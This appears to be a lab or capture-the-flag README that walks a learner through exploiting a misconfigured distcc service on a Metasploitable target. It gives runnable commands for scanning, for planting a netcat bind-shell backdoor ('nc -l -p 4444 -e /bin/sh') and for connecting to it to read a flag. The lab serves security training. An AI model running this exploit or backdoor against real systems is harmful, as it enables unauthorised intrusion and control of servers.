

# Attacker Scenario 2: Exploit Research and Bind Shells

## Objective
Identify a vulnerable service, research its exploitation method, and successfully execute a **Bind Shell** to gain control over a target server.

### Bind vs Reverse Shell
The machine initiating the connection will determine the type of **Shell** that is opened by a malicious cyber actor.  Regardless of direction, one of the machines must be **Listening** for a connection, which is typically initiated by the Attacker on either their machine or the victim's machine.



## Scenario
A legacy server on the network is reportedly running a distributed compiler service (`distcc`). This service, if misconfigured, can allow remote users to execute arbitrary commands. Your goal is to exploit this service to force the target to open a "backdoor" listener that you can connect to.

The target is reachable at `172.30.0.30`.

## Steps

### 1. Service Identification
Scan the target to find the `distcc` service.

```bash
nmap -Pn -sV -p3632 172.30.0.30
```

Look for port **3632**. It should be running `distcc v1`.

### 2. Understanding Bind Shells (Forward Shells)
In this scenario, we're going to explore the concept of a **Bind Shell**. Unlike a Reverse Shell (where the target calls you), a Bind Shell is when the target machine "binds" a shell to a specific port and waits for *you* to connect to it.

This is often used when:
1. The attacker's machine is behind a firewall or NAT that prevents incoming connections.
2. The target machine is allowed to have new listening ports.

### 3. Triggering the Exploit
We will use the Python script provided in this directory to send a malicious command to the `distcc` service. This command will tell the target to start a listener on port 4444 and attach a shell to it.

Execute the following in your terminal:

```bash
python3 exploit_distcc.py 172.30.0.30 "nohup nc -l -p 4444 -e /bin/sh >/dev/null 2>&1 &"
```
*Note: We use `nohup` and the `&` symbol to ensure the netcat listener continues to run in the background on the target even after our exploit script finishes its task.*

### 4. Connecting to the Shell
Now that the target is listening, use `netcat` (`nc`) to connect to the "backdoor" you just opened:

```bash
nc -vn 172.30.0.30 4444
```

If successful, you will have a command prompt.

### 5. Post-Exploitation
You are now inside the Metasploitable server. Try running:
```bash
whoami
hostname
cat /flag.txt
```

## 6. Cleanup
Run `./attacker_scenario_2/scenario.sh reset` to clean up and reset the scenario.
